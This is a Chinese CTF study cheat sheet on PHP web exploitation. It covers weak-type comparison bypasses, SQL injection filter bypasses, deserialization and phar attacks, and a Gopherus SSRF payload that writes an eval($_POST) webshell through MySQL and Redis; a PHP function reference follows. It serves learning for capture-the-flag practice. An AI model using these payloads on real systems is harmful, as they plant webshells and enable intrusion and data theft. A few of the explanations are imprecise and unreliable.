这里要我们传入一个md5的值，要求在经过md5加密后两者还是相等，php弱类型比较，php若比较会截取字符串的数字，直到遇到字符才会停止，比如‘12x34’会被读取为12，而‘ee123’就会被读取为0。而在以0x开头的字符串进行弱比较的时候，就总是被认为是相同的。在这里我们就需要找到一个是0x开头并且md5加密后还是0x开头的字符串，这里我是真没找到只能去wp里找，发现了大家都在用的：`0e215962017`

##### 弱类型 if 绕过

下面的代码示例结果输出 1

```php
<?php
    $a = true;
    $b = "wasdde12";
    if ($a == $b) {
        echo 1;
    }
?>
```

下面的代码示例结果输出 1

```php
<?php 
$x=5;
$y="5s";
if ($x == $y) {
    echo 1;
}
?>
```

下面的代码示例结果输出 1

```php
<?php
    echo "字符串"==0;
?>
```

解释：在 PHP 中，当你试图将一个字符串和一个数字进行比较时，PHP 会尝试将这个字符串转换为一个数字。在这种情况下，PHP 会从字符串的开始处读取，直到它找到一个不能被解析为数字的字符，然后它只会返回已经解析的部分。如果字符串的开始部分没有数字，那么它将返回 0。

在你提供的代码中，"字符串" 是一个完全由非数字字符组成的字符串，所以当 PHP 尝试将它转换为数字时，它将返回 0。因此，"字符串"==0 的结果是 true，也就是 1。

这是 PHP 的类型松散比较的一个特性。如果你想进行严格的类型比较，你应该使用 === 操作符，这样除了值要相等，类型也要相等，"字符串"===0 将返回 false。

###### if(intval($num) < 2020 && intval($num + 1) > 2021) 绕过

- 该漏洞仅适用于 PHP 5，PHP 7 不会将 `intval('1e4')` 识别为 1

php 有一个强转换机制：如果将一个字符串和一个数字相加，那么 php 首先会将字符串转换为数字，然后将两个数相加。利用科学计数法，当我们传入的是 `1e4` 的时候，经过intval函数的作用后就会变成1，但是当加上1的时候就会变为10001。

###### if(!$_GET['id']) 绕过

某个 GET 参数例如 id 的值为 0，在 PHP 中，!$_GET['id'] 该判断是 true。要绕过该判断，使用 id=0a 即可
>”1aaaa“=="1"是成立的，因为数字和字母不可比较，只要字母前面的数字全一样就可以
>
>但是，如果是 "aaaa1"=="1" 就不成立，字母在前时，会被识别为非数值类型，返回 0

举例
```
if(!$_GET['id']) 是弱比较
if($_GET['id'] === null) 是强比较
```

##### SQL 注入的弱类型绕过

```
http://xxx/?id=2 or id =1000
# 用于绕过弱类型比较时，id 只能小于 1000 的情况

# 继续 如果 or 也被绕过，使用 ||
http://xxx/?id=2||id=1000
或者 取反
http://xxx/?id=~~1000
# 取反操作时，intval('~~1000') 会将值转为 0，所以可以绕过 if(intval($id) > 999)
```

继续上面的类型，如果连取反 ~ 也被绕过，则用以下脚本转为二进制解题

```python
def main():
    a = 1000
    print(bin(a))
    

if __name__ == '__main__':
    main()
    

# # 获取用户输入十进制数
# dec = int(input("输入数字："))
 
# print("十进制数为：", dec)
# print("转换为二进制为：", bin(dec))
# print("转换为八进制为：", oct(dec))
# print("转换为十六进制为：", hex(dec))
```

得到以下 url

```
http://xxx/?id=0b1111101000
# 0b1111101000 是 1000 的二进制
# 说明数据库会自动将二进制转为十进制？
```

#### 反序列化

- PHP 的反序列化和 Python 有很大区别。PHP 中只能根据原本模版 (class) 来改，只能改变属性值，不能修改方法。PHP 的序列化更像是在前端构建和后端相匹配的数据结构。

- PHP 中无法凭空产生反序列化攻击（这点和 Python 不同，PHP 的序列化不太自由），要执行反序列化攻击，服务端必然有模版（即相应的类，利用服务端中类方法的语法漏洞注入）。

- 虽然无法凭空构造类或函数来注入，但可以使用反序列化**调用系统内置的函数**，如利用这点

  ```php
  <?php
      $a = 'system';
      $b = 'ls';
      $a($b);
  ?>
  ```

  这段代码等效于 `system('ls')`。例题: https://www.ctfer.vip/problem/2883

- `w00m->{a}`: 表示调用 w00m 对象的 a 方法，a 是方法名的字符串

- 反序列化也支持反序列化字符串或数组（键值对），这里举例将键值对序列化

  ```php
  <?php
      $info = array(
          "username" => true,
          "password" => true
      );
      echo urlencode(serialize($info));
  ?>
  ```

- PHP 的序列化过程会产生特殊字符（如 %00），如果将序列化结果复制到在线的 base64 网站进行编码可能就会丢掉特殊字符，所以最好**直接在 PHP 中进行 base64 或其他一系列编码**。

- PHP 中**类属性只能是 字符串、数值或 bool**【不能在类中乱定义属性】，只能在类实例化后，用 -> 指向其他类型（如函数）

  原理解释：在PHP中，类属性（也称为成员变量或字段）在定义时可以设置默认值，但这些默认值只能是常量表达式，不能是（例如）函数调用的结果或者一个对象。这是因为在PHP解析代码时，它还无法执行任何动态的操作，所以只能接受静态的值作为默认值。

  然而，一旦类被实例化为对象，我们就可以动态地修改这些属性的值，包括改变它们的类型。因为在运行时，PHP有了执行动态操作的能力。（在Python中，类定义本身就是一个运行时行为，所以更灵活）

  例如：

  ```php
  class MyClass {
      public $myVar = 5;  // 可以设置为一个常量值
  }
  
  $obj = new MyClass();
  $obj->myVar = "Hello, world!";  // 可以更改为任何类型的值
  ```

  在上面的代码中，`$myVar`属性在定义时被设置为整数5，但在实例化后，我们可以将其更改为字符串。


- `preg_match("/file|ftp|http|https|gopher|dict|\.\./i", $a)` 如果 $a 是一个类实例，该方法也能触发 `__toString()` 。（不要想当然认为只有 `echo` 会触发  `__toString()` ）

- 一个 CVE 漏洞 ：当成员属性数目大于实际数目时可绕过 __wakeup 方法(CVE-2016-7124)

  举例：将实际生成的序列化字符串 `O:4:"xctf":1:{s:4:"flag";s:3:"111";}` 改为 `O:4:"xctf":2:{s:4:"flag";s:3:"111";}` 即可绕过 __wakeup()

- 调用原生类


  - 遇到一道题，突破口是 `echo new $_POST['a']($_POST['b']);` (`function(参数)`)，需要调用原生类来读文件。此时使用 `SplFileObject` 类 （`SplFileObject('flag.php')`），参数: `a=SplFileObject&b=php://filter/read=convert.base64-encode/resource=flag.php`（至于这里使用的伪协议，因为使用伪协议会直接读取文件内容，如果不用伪协议，会调用这个 php 文件，未必会输出内容）
  - `FilesystemIterator('glob:///fl*')` 可以读根目录下 `fl` 开头的文件 (其他目录同理，该类只能获取具体的某个文件)。

- `SplFileObject` 使用16进制绕过正则，举例: `O:9:"catalogue":2:{s:5:"class";s:13:"SplFileObject";s:4:"data";s:5:"/flag";}`，由于 `/object/i` 被正则匹配，这里将 `b` 改为十六进制，并在前面加 `\`，将 SplFileObject 前面的 `s` 改为 `S` (大写)即可（这样反序列化就能识别16进制字符串的名称）。最终得到 `O:9:"catalogue":2:{s:5:"class";S:13:"SplFileO\62ject";s:4:"data";s:5:"/flag";}`

- 字符串逃逸：原理：如，题目中是 `str_replace('fuck', 'loveU', serialize($msg));`，利用 fuck 到 loveU 每次替换可以新增1个字符的特点，直到恰好把后面需要的那段反序列化字符串挤出去。挤出去后，后面的需要的字符串恰好构成了新的一部分。（最后面还有一段原先生成的字符串，会被识别为无效反序列化字符串[因为和前面自己构造的内容重复？]，所以不会执行）【如果 `str_replace` 是长替短，应该是将后面构造的内容逐渐往前移，思路是完全一样的(都是确保变化的字符串数量等于后面需要的字符串数量)，只是运行机制正好相反】


  - 例题: https://ctf.show/challenges#web262-722 (选择 web262 题) ，解析: https://blog.csdn.net/Kracxi/article/details/122024419

反序列化代码示例

```php
<?php
class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=true;
}

$ctfs = new ctfShowUser();
echo urlencode(serialize($ctfs));
?>

// 最后输出时最好使用 urlencode 编码，避免不合规字符串，Cookie 中的 url 编码会被 HTTP 自动解码
```

##### 反序列化绕过

###### 绕过正则匹配的 "o" 或 "c" 

将 O:4 改为 O:+4

举例

```php
if (preg_match('/[oc]:\d+:/i', $var))
```

得到的序列化字符串为

```bash
O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}
```

将它改为

```bash
O:+4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}
```

###### 绕过正则匹配的大写字母

例如，正则匹配为 `/"[BA]":(.*?):/s` ，类名是大写字母 A 和 B，序列化后的字符串为 `O:1:"B":1:{s:1:"a";O:1:"A":1:{s:4:"code";s:18:"eval($_POST["a"]);";}}`，我们可以利用 **PHP 对类名大小写不敏感**的特性将大写字母改为小写，如 `O:1:"b":1:{s:1:"a";O:1:"a":1:{s:4:"code";s:18:"eval($_POST["a"]);";}}`，从而绕过该正则表达式

###### 绕过特殊情况下的 `===` 判断

如 `if($this->openstack->neutron === $this->openstack->nova)` ， `this->openstack` 本身应该是一个类实例，此时只要保证 `this->openstack = ''` 或   `this->openstack = null` ，那么 `$this->openstack->neutron` 和 `$this->openstack->nova` 的值会自动反显为 `null`，从而绕过 `===`。例题 https://www.ctfer.vip/problem/335

##### 反序列化 phar

- 抓住突破口 `echo file_get_contents` 或 `file_exists`，会触发 phar 中的内容执行

例题:

```php
<?php
//flag in flag.php
error_reporting(0);
highlight_file(__FILE__);
class A {
    public $a;

    public function __destruct()
    {
        system($this->a);
    }
}
if(isset($_GET['file'])) {
    if(strstr($_GET['file'], "flag")) {
        die("Get out!");
    }
    echo file_get_contents($_GET['file']);
}

if(isset($_FILES['file'])) {
    mkdir("upload");
    $uuid = uniqid();
    $ext = explode(".", $_FILES["file"]["name"]);
    $ext = end($ext);
    move_uploaded_file($_FILES['file']['tmp_name'], "upload/".$uuid.".".$ext);
    echo "Upload Success! FilePath: upload/".$uuid.".".$ext;
}
?>
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
</head>
<body>
<form action="" method="post" enctype="multipart/form-data">
    <input type="file" name="file" />
    <input type="submit" value="load" />
</form>
</body>

</html>
[选择文件]未选择任何文件  [upload]
```

答案:

首先构造 phar

```php
<?php
class A {
    public $a;

    public function __destruct()
    {
        system($this->a);
    }
}

$a = new A();
$a->a='cat flag.php';
//echo serialize($a);

$phar = new Phar("a.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
$phar-> addFromString('test.txt','yu22x');
//$phar->setMetadata($Test);第一步

$phar->setMetadata($a);

$phar->stopBuffering();
```

选择上传 `a.phar` ，得到 `Upload Success! FilePath: upload/64ed85cc9f747.phar`

然后访问该文件

```
?file=phar://upload/64ed85cc9f747.phar
```

即可得到 flag (输出在 html 源码中)

##### PHP 魔术方法

__destruct()，类的析构函数

__wakeup()，执行unserialize()时，先会调用这个函数

__toString()，类被当成字符串时的回应方法

__invoke()，调用函数的方式调用一个对象时的回应方法

__get()，获得一个类的成员变量时调用

__set()，设置一个类的成员变量时调用

#### Gopherus 注入 RCE 漏洞

- 核心是后台可以请求 url 链接，在这里使用 Gopher 注入代码
- 已经安装在 py-ctf 的 Docker 容器中

##### 打无密码 MySQL

```bash
gopherus --exploit mysql
```

输入 username 为 root

输入 execute 为

```sql
select "<?php @eval($_POST['a']);?>" into outfile '/var/www/html/2.php';
```

得到

```
gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%4c%00%00%00%03%73%65%6c%65%63%74%20%22%3c%3f%70%68%70%20%40%65%76%61%6c%28%24%5f%50%4f%53%54%5b%27%74%65%73%74%27%5d%29%3b%3f%3e%22%20%69%6e%74%6f%20%6f%75%74%66%69%6c%65%20%27%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%32%2e%70%68%70%27%3b%01%00%00%00%01
```

由于有不允许的字段，用 url 编码后面的内容得到

```
gopher://127.0.0.1:3306/_%25a3%2500%2500%2501%2585%25a6%25ff%2501%2500%2500%2500%2501%2521%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2572%256f%256f%2574%2500%2500%256d%2579%2573%2571%256c%255f%256e%2561%2574%2569%2576%2565%255f%2570%2561%2573%2573%2577%256f%2572%2564%2500%2566%2503%255f%256f%2573%2505%254c%2569%256e%2575%2578%250c%255f%2563%256c%2569%2565%256e%2574%255f%256e%2561%256d%2565%2508%256c%2569%2562%256d%2579%2573%2571%256c%2504%255f%2570%2569%2564%2505%2532%2537%2532%2535%2535%250f%255f%2563%256c%2569%2565%256e%2574%255f%2576%2565%2572%2573%2569%256f%256e%2506%2535%252e%2537%252e%2532%2532%2509%255f%2570%256c%2561%2574%2566%256f%2572%256d%2506%2578%2538%2536%255f%2536%2534%250c%2570%2572%256f%2567%2572%2561%256d%255f%256e%2561%256d%2565%2505%256d%2579%2573%2571%256c%254c%2500%2500%2500%2503%2573%2565%256c%2565%2563%2574%2520%2522%253c%253f%2570%2568%2570%2520%2540%2565%2576%2561%256c%2528%2524%255f%2550%254f%2553%2554%255b%2527%2574%2565%2573%2574%2527%255d%2529%253b%253f%253e%2522%2520%2569%256e%2574%256f%2520%256f%2575%2574%2566%2569%256c%2565%2520%2527%252f%2576%2561%2572%252f%2577%2577%2577%252f%2568%2574%256d%256c%252f%2532%252e%2570%2568%2570%2527%253b%2501%2500%2500%2500%2501
```

通过 Brup 的 Reapter 将 这段内容注入到服务器后端请求参数的位置（无论是 GET 还是 POST，需要注入到一个参数中），即可正常使用蚁剑连接

##### 打 Redis

- 如果这个方法不行，还可以试试 [Redis 漏洞](###Redis)

```bash
gopherus --exploit redis
```

根据提示输入即可，和上面的打 MySQL 差不多，其中我选的 phpshell，没有选反弹 shell，只是 PHP 注入内容输入

```php
<?php @eval($_POST['a']);?>
```

 然后通过默认生成的 shell.php 实现蚁剑连接

##### 备忘 GitHub 的示例

- MySQL：如果用户没有密码保护，你可以转储他的数据库，也可以在他的系统中放置恶意文件。

```
gopherus --exploit mysql
```

   它只询问 MySQL 用户的用户名，它会为您提供 gopher 链接。

- PostgreSQL：如果用户没有密码保护，你可以转储他的数据库，也可以将恶意文件放入他的系统。

```
gopherus --exploit postgresql
```

   它只询问 Postgres 用户的用户名和数据库名称，然后它会为您提供 gopher 链接。

- FastCGI：如果端口 9000 在没有安全保护的情况下打开，那么您可以获得 RCE。

```
gopherus --exploit fastcgi
```

   它只要求一个必须存在于受害者系统中的文件（最好是 .php 文件），顺便说一句，我们有默认文件。然后是输入终端命令 (不是 PHP 的一句话木马，是 shell 命令)

- Redis：如果redis端口是开放的，那么我们可以覆盖系统中的文件，这太危险了。
  所以这里有两件事你可以得到：
  a。反向 Shell
  b. PHP外壳

```
gopherus --exploit redis
```

- Zabbix：如果端口 10050 处于打开状态，`EnableRemoteCommands = 1`那么您可以在受害系统上运行 shell 命令。

```
gopherus --exploit zabbix
```

- Memcached：它主要用于存储序列化数据，但是当涉及到对这些数据进行反序列化时，就会出现已知的漏洞，例如 PHP 反序列化问题、Python-Pickle 反序列化问题、Ruby-Marshal 反序列化问题这可能导致 RCE。
  因此，我为它们中的每一个创建了不同的脚本，还创建了一个用于转储 Memcached 内容的脚本：

```
gopherus --exploit pymemcache
gopherus --exploit rbmemcache
gopherus --exploit phpmemcache
gopherus --exploit dmpmemcache
```

- SMTP：如果端口 25 是开放的，那么我们可以访问它，我们可以作为受害者用户向任何人发送消息，所以这个工具会生成用于发送邮件的 gopher payload。

```
gopherus --exploit smtp
```

#### 函数或语法备忘

- 如果遇到函数不认识，可以在本地用 php 执行一下，看看效果。

##### PHP 解释器行为

###### 弱类型语言

在PHP中，当字符串被用在数学运算中时，PHP会自动将其转换为数值。

###### 自动处理变量单词间的空格

当 show_source 被正则过滤时，为什么用 show+source 代替 show_source？

在 URL 编码中，加号（+）是一个特殊字符，代表一个空格。所以，show+source 在 URL 中实际上代表 show source。

当 PHP 解析 URL 中的查询字符串（query string）时，它会将加号（+）解析为一个空格。所以，show+source 会被 PHP 解析为 show source。然后，PHP 会将这个字符串转换为一个变量名，去掉空格，所以 show source 被转换为 show_source。

##### PHP 的数组可以和键值对很像

在PHP中，数组是一个复杂的数据结构，它可以存储多种类型的数据并且可以通过键值对的方式进行访问。这是因为PHP的数组实际上是一个有序映射。映射是把键（key）和值（value）关联在一起的一种数据类型。

在PHP中，数组的键可以是整数或者字符串，值可以是任意类型。这就意味着，你可以通过键值对的方式来访问数组的元素，就像这样：

```php
$c = array(
    "foo" => "bar",
    "baz" => "qux",
);

echo $c["foo"]; // 输出 "bar"
```

##### PHP 取地址引用

`&` 可以取地址引用

```
<?php 
    $a = 1;
    $b = &$a;
    $a += 1;
    echo $b;
?>
```

会输出 2

##### 科学计数法

在 PHP 中，你可以使用科学计数法来表示非常大或非常小的数字。科学计数法是一种将数字表示为基数和指数的方式。例如，3000 可以表示为 3e3，这意味着 3 乘以 10 的 3 次方。

##### eval、exec、shell_exec、system、passthru、printf 的区别

eval() 用于执行 PHP 代码

exec() 用于执行 shell 命令，system() 也用于执行 shell 命令，但是 system() **会回显**结果 【印在终端上，此外 passthru 和 system 一样会执行命令回显到终端】，exec() **不会回显**只会返回内容【除了 exec，还有一个 shell_exec，区别在于 exec 只返回最后一行内容，而 shell_exec 会返回全部内容】。

`printf('ls')` 会输出 ls，而 ```printf(`ls`)``` 会在终端执行并显示 ls 命令的结果

##### $_REQUEST

在 PHP 中，`$_REQUEST` 是一个包含了 HTTP 请求参数的关联数组。它包含了通过 GET、POST 和 COOKIE 方法发送的参数。`$_REQUEST` 数组的键是参数的名称，值是参数的值。

当客户端发送一个 HTTP 请求时，PHP 会自动解析请求中的参数，并将它们存储在 `$_REQUEST` 数组中。这使得开发者可以方便地访问这些参数，而不需要关心请求是通过 GET 还是 POST 方法发送的。

以下是一个示例，展示如何使用 `$_REQUEST` 获取表单提交的参数：

```php
<form method="post" action="process.php">
  <input type="text" name="username">
  <input type="password" name="password">
  <input type="submit" value="Submit">
</form>
```

在 `process.php` 文件中，你可以通过 `$_REQUEST` 访问提交的参数：

```php
$username = $_REQUEST['username'];
$password = $_REQUEST['password'];

// 进行处理逻辑...
```

需要注意的是，`$_REQUEST` 数组包含了所有的请求参数，包括通过 GET、POST 和 COOKIE 方法发送的参数。在某些情况下，这可能会导致安全问题，因为它可以让攻击者通过伪造请求来访问敏感数据。为了增加安全性，建议根据具体的需求使用 `$_GET`、`$_POST` 或 `$_COOKIE` 数组来获取对应的参数。

##### $_SERVER

###### $_SERVER['PHP_SELF']

`$_SERVER['PHP_SELF']` 是一个 PHP 超全局变量，用于获取当前正在执行的脚本文件的文件名。它返回当前脚本的相对路径，相对于服务器的文档根目录。

当用户在浏览器中访问名为 `example.php` 的 PHP 脚本时，`$_SERVER['PHP_SELF']` 的返回格式类似于 `$_SERVER['REQUEST_URI']`，都是相对于服务器的文档根目录的相对路径。

假设用户访问的是 `https://example.com/example.php`，那么 `$_SERVER['PHP_SELF']` 的返回值将是：

```
/example.php
```

如果用户访问的是 `https://example.com/subfolder/example.php?a=1`，那么 `$_SERVER['PHP_SELF']` 的返回值将是：

```
/subfolder/example.php
```

请注意，`$_SERVER['PHP_SELF']` 不包含查询字符串部分，它只返回当前正在执行的脚本文件的路径和文件名。如果您需要获取完整的 URL 路径，包括查询字符串部分，可以使用 `$_SERVER['REQUEST_URI']`。在这种情况下，`$_SERVER['REQUEST_URI']` 的返回值将是 `/subfolder/example.php?a=1`。

使用 `$_SERVER['PHP_SELF']` 时也需要进行适当的验证和过滤，以确保安全性。

---

`$_SERVER['PHP_SELF']` 和 `basename()` 的一个漏洞：

当用户访问的是 `https://example.com/index.php/utils.php/%a0?code=1`，那么 `$_SERVER['PHP_SELF']` 的返回值将是：

```
/index.php/utils.php/%a0
```

解释：当你访问 `/index.php/utils.php` 时，实际上你正在访问 `index.php` 这个文件，而 `/utils.php` 被视为 "路径信息"（path info）。这是因为在 PHP 中，路径信息是可以通过 `$_SERVER['PATH_INFO']` 来获取的，而不是直接作为文件名处理的。所以当你调用 `basename($_SERVER['PHP_SELF'])` 时，它实际上会返回 `index.php`，因为这是正在执行的脚本文件。

当你访问 `/index.php/utils.php/%a0` 时，情况就变了。`%a0` 是一个 URL 编码的非打印字符，PHP 在处理 URL 时会忽略它。因此，`utils.php/%a0` 实际上被解析为 `utils.php`。这就使得 `basename($_SERVER['PHP_SELF'])` 返回 `utils.php`，而不是 `index.php`。

这是因为 PHP 在处理 URL 时，会将 `%a0` 之后的部分视为路径信息，而将 `%a0` 之前的部分视为文件名。所以在这种情况下，`utils.php/%a0` 被解析为 `utils.php`，并且 `basename($_SERVER['PHP_SELF'])` 会返回 `utils.php`。

###### $_SERVER['REQUEST_URI']

`$_SERVER['REQUEST_URI']` 是一个 PHP 超全局变量，用于获取当前请求的 URI（Uniform Resource Identifier），包括查询字符串（如果有）。它返回用户在浏览器中请求的完整 URL 路径。

下面是一个示例，演示如何使用 `$_SERVER['REQUEST_URI']`：

```php
<?php
echo $_SERVER['REQUEST_URI'];
?>
```

假设用户在浏览器中访问 `https://example.com/products.php?id=123`，那么上述示例将输出：

```
/products.php?id=123
```

`$_SERVER['REQUEST_URI']` 可以用于获取当前请求的路径和查询字符串，以便在处理 URL 时进行操作。请注意，`$_SERVER['REQUEST_URI']` 返回的是相对于服务器的文档根目录的相对路径，而不是绝对路径。

需要注意的是，`$_SERVER['REQUEST_URI']` 的值是由用户提供的，并且可能受到恶意用户的攻击。在使用 `$_SERVER['REQUEST_URI']` 时，务必进行适当的验证和过滤，以防止安全漏洞，比如跨站脚本攻击（XSS）和路径遍历攻击。

##### file_get_contents

`file_get_contents('a')` 识别不了文件时会返回 `false`

##### md5

`md5('a')` 返回的是一个32字符的十六进制数，等效于 Python 中的 `hashlib.md5('a'.encode()).hexdigest()`

##### array_search

array_ search这个函数。先看看下面两个判断吧，array_ seach的结
果b不能是假，也就是Array [n]中必须有元素是DGGJ,同时遍历Array [n]之后对数组值
进行判断，如果存在DGGJ则终止程序。
很明显这两个条件是矛盾的，开头提到了如何绕过array_ search是核心点，既然如此就先
了解一下array_search这个函数的作用吧。其作用是在数组中查找元素，并返回其下标。
而**这个函数在进行元素查找的过程中进行的比较是==而非===**，因此同样是采取弱类型比较
的特点，因为是和没有数字字符串比较所以我们只要保证在Array [n]中存在非0下标的元
素中存在值0即可。因为在php中"字符串"==0是成立的。
最后再通过json_ encode ()将我们构造的数组进行一下转化就得到了 Array [n]的json格
式数据。

##### curl_setopt()

curl_setopt() 函数就类似 Python 的 requests，可以访问外部或内部地址。可以用它来构造 127.0.0.1 访问原本访问不到的路径

##### parse_url($url)

parse_url($url) 会把 url 解析为 http、host、port、user、pass、path 等部分

##### filter_var($ip, FILTER_VALIDATE_IP, FILTER_FLAG_NO_PRIV_RANGE | FILTER_FLAG_NO_RES_RANGE))

只要 ip 里面有本机地址 (如 127.0.0.1、0.0.0.0) ，全部过滤

##### str_ireplace

`str_ireplace` 是 PHP 中的一个字符串替换函数，用于在字符串中进行不区分大小写的替换操作。

函数的语法如下：

```php
str_ireplace($search, $replace, $subject, &$count = null)
```

参数说明：
- `$search`：要查找和替换的字符串或字符串数组。
- `$replace`：用于替换的字符串或字符串数组。
- `$subject`：要进行替换操作的字符串或字符串数组。
- `$count`（可选）：如果提供了该参数，将存储替换操作的次数。

函数功能：
`str_ireplace` 函数在 `$subject` 字符串中查找 `$search` 字符串，并将其替换为 `$replace` 字符串。不同于 `str_replace` 函数，`str_ireplace` 不区分大小写，即无论 `$search` 在 `$subject` 中的大小写如何，都会进行替换。

示例：

```php
$str = "Hello, world!";
$newStr = str_ireplace("hello", "hi", $str);
echo $newStr;  // 输出: hi, world!
```

在上面的示例中，`str_ireplace` 将字符串中的 "Hello" 替换为 "hi"，不区分大小写。

需要注意的是，`str_ireplace` 是不区分大小写的替换函数。如果需要进行区分大小写的替换操作，可以使用 `str_replace` 函数。

##### strstr

在 PHP 中，`strstr()` 是一个字符串函数，用于在一个字符串中查找另一个字符串的第一次出现，并返回从该位置开始到字符串末尾的子字符串。

`strstr()` 函数的语法如下：

```php
strstr(string $haystack, mixed $needle, bool $before_needle = false): string|false
```

参数说明：
- `$haystack`：要在其中搜索的字符串。
- `$needle`：要查找的子字符串。
- `$before_needle`（可选）：如果设置为 `true`，则返回 `$needle` 之前的部分；如果设置为 `false`（默认），则返回 `$needle` 之后的部分。

返回值：
- 如果找到了子字符串，则返回从子字符串开始到字符串末尾的子字符串。
- 如果没有找到子字符串，则返回 `false`。

以下是 `strstr()` 函数的示例用法：

```php
$str = "Hello, world!";
$substring = "world";

$result = strstr($str, $substring);
echo $result;  // 输出：world!

$result = strstr($str, $substring, true);
echo $result;  // 输出：Hello, 
```

在上面的示例中，`strstr($str, $substring)` 查找 `$substring`（"world"）在 `$str`（"Hello, world!"）中的第一次出现，并返回从该位置开始到字符串末尾的子字符串。在第二个示例中，`strstr($str, $substring, true)` 使用第三个参数设置为 `true`，返回 `$substring` 之前的部分。

##### mb_substr、mb_strpos

```php
$_page = 'source.php?/../../../../../ffffllllaaaagggg'
$_page = mb_substr( 
  $page,
  0,
  mb_strpos($page . '?',  '?')
);

# 结果会返回 source.php
```

这段代码是PHP语言的一部分，用于获取URL中问号（?）之前的部分。

代码解释如下：

1. `mb_substr()` 函数用于获取字符串的子串。在这里，它用于获取 `$page` 变量中的子串。
2. `$page` 是一个包含URL的字符串。
3. 第一个参数是要截取的字符串，即 `$page`。
4. 第二个参数是截取的起始位置。在这里，起始位置为0，表示从字符串的开头开始截取。
5. 第三个参数是截取的长度。在这里，它使用了 `mb_strpos()` 函数来查找字符串中第一个问号（?）的位置，并将该位置作为截取的长度。
6. `mb_strpos()` 函数用于返回字符串中第一次出现指定字符的位置。在这里，它搜索 `$page . '?'`，即在 `$page` 后面添加一个问号，以确保即使没有问号，也能返回正确的位置。
7. 最后，将截取的子串赋值给 `$_page` 变量。

总体来说，这段代码的目的是从URL中获取问号之前的部分，并将结果存储在 `$_page` 变量中。

##### mt_srand

```php
<?php
mt_srand(372619038);
echo mt_rand();
?>
```

mt_srand(372619038) 设置了 mt_rand() 的种子为 372619038，这意味着接下来的 mt_rand() 函数将会返回一个固定的值

##### call_user_func

`call_user_func` 是 PHP 中的一个函数，用于调用一个用户自定义的函数或方法。

它的基本语法如下：

```php
call_user_func(callable $callback, mixed ...$parameters): mixed
```

`$callback` 参数指定要调用的函数或方法。它可以是一个字符串，表示函数名或类方法名，也可以是一个数组，表示类名和方法名的组合，或者是一个可调用对象。

`$parameters` 参数是可选的，用于传递给被调用函数或方法的参数。你可以传递任意数量的参数，按照它们在函数或方法签名中的顺序进行传递。

`call_user_func` 函数会执行指定的函数或方法，并返回其返回值。如果调用失败，它会返回 `false`。

下面是一些使用 `call_user_func` 的示例：

```php
function greet($name) {
    echo "Hello, $name!";
}

call_user_func('greet', 'John'); // 输出：Hello, John!

class MyClass {
    public static function sayHello($name) {
        echo "Hello, $name!";
    }
}

call_user_func(['MyClass', 'sayHello'], 'Jane'); // 输出：Hello, Jane!

$obj = new MyClass();
call_user_func([$obj, 'sayHello'], 'Alice'); // 输出：Hello, Alice!
```

除了 `call_user_func`，PHP 还提供了一些类似的函数，如 `call_user_func_array` 和 `call_user_method`（在 PHP 7 中已被废弃）。这些函数在不同的使用场景下提供了更多的灵活性。

###### GET 传参

例如，我们想执行下面代码 `MyClass` 类的 `sayHello` 方法

```php
class MyClass {
    public static function sayHello() {
        echo "Hello!";
    }
}

call_user_func($_GET['p']);
```

传参时让 `p` 为数组就行了，例如 `?p[0]=MyClass&p[1]=sayHello` 或者 `?p=MyClass::sayHello` (?p=MyClass::sayHello 使用了静态方法调用的方式。在这种情况下，参数 `p` 直接指定了要调用的类和方法，中间使用双冒号 `::` 分隔。这种方式适用于调用静态方法或者不需要传递额外参数的情况。)

##### phpinfo

- 在 `User/Group` 栏可以看到当前用户名（当前用户名即权限，如 `root` 或其他任何用户名）

- 在 `disable_functions` 中可以看禁用的函数

##### 正则表达式记忆表

###### 通用正则

1. **基础匹配**

    | 符号 | 描述                                         |
    | ---- | -------------------------------------------- |
    | .    | 匹配任何除换行符以外的任何单个字符           |
    | \w   | 匹配任何字母数字字符，等同于[a-zA-Z0-9_]     |
    | \W   | 匹配任何非字母数字字符，等同于[^a-zA-Z0-9_]  |
    | \d   | 匹配任何数字，等同于[0-9]                    |
    | \D   | 匹配任何非数字字符，等同于[^0-9]             |
    | \s   | 匹配任何空白字符，包括空格、制表符、换页符等 |
    | \S   | 匹配任何非空白字符                           |

2. **定位符**

    | 符号 | 描述             |
    | ---- | ---------------- |
    | ^    | 匹配输入的开始   |
    | $    | 匹配输入的结束   |
    | \b   | 匹配一个单词边界 |
    | \B   | 匹配非单词边界   |

3. **数量词**

    | 符号  | 描述                               |
    | ----- | ---------------------------------- |
    | *     | 匹配前面的元素零次或多次           |
    | +     | 匹配前面的元素一次或多次           |
    | ?     | 匹配前面的元素零次或一次           |
    | {n}   | 匹配前面的元素n次                  |
    | {n,}  | 匹配前面的元素n次或更多次          |
    | {n,m} | 匹配前面的元素至少n次，但不超过m次 |

4. **特殊字符**

    | 符号 | 描述               |
    | ---- | ------------------ |
    | \    | 转义特殊字符       |
    | []   | 定义字符集         |
    | ()   | 定义一个组         |
    | \|   | 定义一个或操作     |
    | ^    | 创建一个否定字符集 |

5. **预定义字符集**

    | 符号 | 描述                       |
    | ---- | -------------------------- |
    | .    | 匹配除换行符以外的任何字符 |
    | \d   | 匹配数字                   |
    | \D   | 匹配非数字                 |
    | \w   | 匹配字母、数字或下划线     |
    | \W   | 匹配非字母、数字和下划线   |
    | \s   | 匹配任何空白字符           |
